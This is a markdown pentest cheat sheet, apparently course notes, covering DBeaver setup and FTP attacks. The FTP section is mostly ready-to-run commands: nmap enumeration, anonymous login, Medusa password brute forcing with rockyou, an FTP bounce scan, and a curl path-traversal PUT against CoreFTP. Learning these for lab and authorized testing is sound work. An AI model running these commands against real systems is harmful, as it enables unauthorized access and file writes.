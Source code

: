 #### Install dbeaver
```Shell
dpkg -i dbeaver-<version>.deb
```

#### Run dbeaver
```Shell
dbeaver &
```

#### Connecting to MSSQL Using dbeaver
![[Pasted image 20230308170231.png]]

#### Connecting to MySQL Using dbeaver
![[Pasted image 20230308170252.png]]


## Attacking FTP

### Enumeration

#### Nmap
```Shell
nmap -sC -sV -p 21 192.168.2.142 
```

```Shell
nmap --script ftp-anon -sV -p 21 192.168.2.142 
```

### Misconfigurations

#### Anonymous Authentication
```Shell
ftp 192.168.2.142
```

#### Brute Forcing with Medusa
```Shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```

#### FTP Bounce Attack using Nmap
```Shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

### Vulnerabilities

#### [CoreFTP Exploitation](https://www.exploit-db.com/exploits/50652)
```Shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
